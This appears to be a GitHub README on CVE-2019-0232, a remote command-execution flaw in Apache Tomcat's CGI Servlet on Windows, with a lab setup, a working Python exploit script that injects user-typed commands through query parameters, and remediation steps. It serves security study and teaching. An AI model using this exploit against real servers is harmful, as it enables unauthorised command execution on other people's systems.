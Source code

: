 # CVE-2019-0232

## Description
Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.


## Explanation of Bug:
There is a vulnerability in parameter interpolation in Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 which can be exploited by passing arguements as query
parameters which in turn are passed to the underlying windows command line.  
In windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the
Windows JRE perform does any kind of input validation for these special characters.  
So, after this we can literally input any command directly to the command line. For example, if
input is `&<cmd_to_run>`, the command which is passed to cmdline will be 
```
RCE.bat &<cmd_to_run>
```  
Here cmd.exe will interpret `RCE.bat` and `<cmd_to_run>` as seperate commands. To see the output of the injected command we need to prepend the command with `&echo.`.  
If this is not done, command will still be invoked but we will not be able to see its output.  
Optionally we can also prepend the command with `&echo+off` which turns off printing of present working directory.  
(`+` is a must and cannot be replaced by `%20` or `space` since HTML queries have MIME type of `application/x-www-form-urlencoded` and since there are
no forms we have to craft query parameters manually).
```
RCE.bat &echo off&echo.&<cmd_to_run>
```  
This bug is only exploitable when running on Windows in a non-default configuration in conjunction with batch files and `enableCmdLineArguements` set to `true` in web.xml file.  
If also `passShellEnvironment` is also set to `true`, this gives the
upper-hand to the attacker as he then doesn't need to enter exact path of commands he want to run. 

## Environment Setup:
1. We installed a Java Runtime Environment (JRE) on a Windows 7 virtual machine.
2. We then download the vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. To enable privileged context, we modify the `conf\context.xml` file and set the property `privileged` to True.

``` html
<Context privileged="true">
```	
4. To enable the CGI Serverlet, we would need to uncomment the commented CGI Serverlet section in `conf\web.xml`. We also initialize the `enableCmdLineArguments` to `true` for passing command line arguments to CGI script, we can also set `passShellEnvironment` for the sake of convenience without passing full paths of commands to be executed.
``` html

<servlet><servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
	<param-name>cgiPathPrefix</param-name>
	<param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
	<param-name>executable</param-name>
	<param-value></param-value>
</init-param>
<init-param>
	<param-name>enableCmdLineArguments</param-name>
	<param-value>true</param-value>
</init-param>
<init-param>
	<param-name>passShellEnvironment</param-name>
	<param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

5. We enable the url pattern `/cgi/*` to be handled by the cgi scripts.
``` html
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```
6. To demonstrate the vulnerability, we need some cgi scripts to be present on the server, to simulate that, we create a directory for the cgi scripts

`mkdir webapps\ROOT\WEB-INF\cgi`

7. The exploit requires the presence of some cgi script, which would be executed each time a request to the certain script is made. The exploit would work as long as we have a non-empty valid cgi script (this script could otherwise be found by some attacker with enumeration under similar environment). We just create a `RCE.bat` which simply sleeps for 1 second
```bash
echo timeout 1 > webapps\ROOT\WEB-INF\cgi\RCE.bat 
```

8.	We then instantiate the the TomCat server for exploitation
``` bash
cd bin
catalina run
```
9. Now we have our vulnerable server up for exploitation, we pass commands to the url of the cgi batch script.
  
## Exploit Code:

```python
import requests as re		
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command		
	# & is command seperator
	r = re.get(base_url, params=command.replace(" ","+"))	
	# ' ' is replaced by '+' to craft valid query parameters
	print(r.text)
```

## Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` and set it to `true`for proper input validation. 
